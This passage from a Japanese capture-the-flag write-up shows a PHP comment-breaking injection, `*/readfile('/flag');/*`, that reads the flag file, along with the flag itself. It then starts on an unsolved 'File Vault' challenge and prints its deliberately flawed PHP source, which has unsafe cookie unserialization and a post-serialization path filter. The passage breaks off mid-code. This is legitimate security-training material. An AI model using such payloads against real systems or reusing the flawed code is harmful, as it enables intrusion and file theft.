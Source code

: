 脆弱なバージョンでは `*/` までそのまま出力されてしまうため、このコメントを閉じてしまえるようです。

`console.php?id=*/readfile('/flag');/*` にアクセスしてみるとフラグが得られました。

```
INS{why_being_so_smart-y}
```

## 競技時間内に解けなかった問題

### [web 201] File Vault

以下のようなソースコードが与えられました。

```php
<?php

include('secret.php');
error_reporting(0);

if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; }

$sandbox_dir = 'sandbox/'.sha1($_SERVER['REMOTE_ADDR']);

global $sandbox_dir;

class VaultFile {
    function upload($init_filename, $content) {
        global $sandbox_dir;
        $fileinfo = pathinfo($init_filename);
        $fileext = isset($fileinfo['extension']) ? ".".$fileinfo['extension'] : '.txt';
        file_put_contents($sandbox_dir.'/'.sha1($content).$fileext, $content);
        $this->fakename = $init_filename;        
        $this->realname = sha1($content).$fileext;
    }

    function open($fakename, $realname){
        global $sandbox_dir;
        $fp = fopen($sandbox_dir.'/'.$realname, 'r');
        $analysis = "The file named ".htmlspecialchars($fakename)." is located in folder $sandbox_dir/$realname. Here all the informations about this file : ".print_r(fstat($fp),true);
        return $analysis;
    }
}

function s_serialize($a, $secret) { $b = serialize($a); $b = str_replace("../","./",$b); return $b.hash_hmac('sha256', $b, $secret); };
function s_unserialize($a, $secret) { $hmac = substr($a, -64); if($hmac === hash_hmac('sha256', substr($a, 0, -64), $secret)) return unserialize(substr($a, 0, -64)); }
   
if(!is_dir($sandbox_dir)) mkdir($sandbox_dir);
if(!is_file($sandbox_dir.'/.htaccess')) file_put_contents($sandbox_dir.'/.htaccess', "php_flag engine off");
if(!isset($_GET['action'])) $_GET['action'] = 'home';
if(!isset($_COOKIE['files'])){
    setcookie('files', s_serialize([], $secret));
    $_COOKIE['files'] = s_serialize([], $secret);
}

switch($_GET['action']){
    case 'home':
    default:
        $content =  "<form method='post' action='index.php?action=upload' enctype='multipart/form-data'><input type='file' name='vault_file'><input type='submit'/></form>";
        $files = s_unserialize($_COOKIE['files'], $secret);
```